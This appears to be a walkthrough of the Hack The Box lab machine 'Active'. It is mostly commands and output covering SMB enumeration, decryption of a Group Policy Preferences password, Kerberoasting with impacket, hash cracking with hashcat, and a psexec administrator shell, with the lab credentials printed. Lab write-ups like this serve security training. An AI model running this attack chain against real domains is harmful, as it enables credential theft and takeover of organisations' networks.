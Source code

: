 ### DNS
```
nslookup
dnsrecon -d 10.129.151.62 -r 10.0.0.0/8
```

### Nmap
found the domain name `active.htb` and add it to `/etc/hosts`
```
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb

nmap --script safe -p 445 active.htb
nmap --script smb-enum-services -d -p 445 active.htb
```

### SMB
```bash
smbmap -H active.htb
smbmap -R Replication -H active.htb --depth 10
smbmap -R Replication -H active.htb -A Groups.xml -q --depth 10
```
or just download it all with `smbclient` recurse download. Mentioned in Wiki.

### Group Policy Preferences (GPP) Passsowrds
When a new GPP is created, an `.xml` file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include thosed used to:

* Map drives (drives.xml)
* Create local users
* Create printer config files (printers.xml)
* Creating scheduled tasks (scheduledtasks.xml)
* Changing local admin passwords

The `cpassword` attribute value is AES-256 bit encrypted and Microsoft published the AES private key.

### Decrypt Group Policy Preferences (GPP) from `Groups.xml`
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

### Carefully running impacket to dump AD users 
```
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip active.htb
```

```bash result
[*] Querying active.htb for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2018-07-19 07:06:40.351723  2022-08-23 09:47:47.322526 
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-19 06:50:36.972031  <never>             
SVC_TGS                                               2018-07-19 08:14:38.402764  2018-07-22 02:01:30.320277 
```

### psexec.py or evil-winrm
won't work since SVC_TGS is not an admin user
```
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18'@active.htb
or use wmiexec.py
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py active.htb/administrator:'Ticketmaster1968'@active.htb

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
```

### none of those are writable as expected.
```
[*] Requesting shares on active.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'Replication' is not writable.
[-] share 'SYSVOL' is not writable.
[-] share 'Users' is not writable.
```


### Follow the HTB academy AD moudule, Miscellaneous Misconfigurations session
```bash
crackmapexec smb -L | grep gpp

crackmapexec smb $IP -u SVC_TGS -p GPPstillStandingStrong2k18 -M gpp_autologin
```

### smbmap again to get user.txt
```bash
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H active.htb
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H $IP -R Users --depth 10
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H $IP -R Users --depth 10 -A user.txt # Get the flag directly without recurse download all files.
smbclient \\\\active.htb\\Users -U=SVC_TGS%'GPPstillStandingStrong2k18'
```

# Privilege Escalation
Either do a blind Kerberoasting or bloodhound as IppSec did.
Do below under windows attack machine
```cmd
C:\> runas /netonly /user:active.htb\svc_tgs cmd
```
Now having a foothold which can run bloodhound from there.

### Kerberoasting
https://0xdf.gitlab.io/2018/12/08/htb-active.html#kerberoasting
```
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip $IP active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
or
python3 GetUserSPNs.py -request -dc-ip $IP active.htb/svc_tgs
or
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

### Crack 13100
```
hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
Ticketmaster1968
```

### smbclient as administrator
```
smbclient //active.htb/Users -U=Administrator%'Ticketmaster1968'
```

### root
```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/Administrator:'Ticketmaster1968'@active.htb
```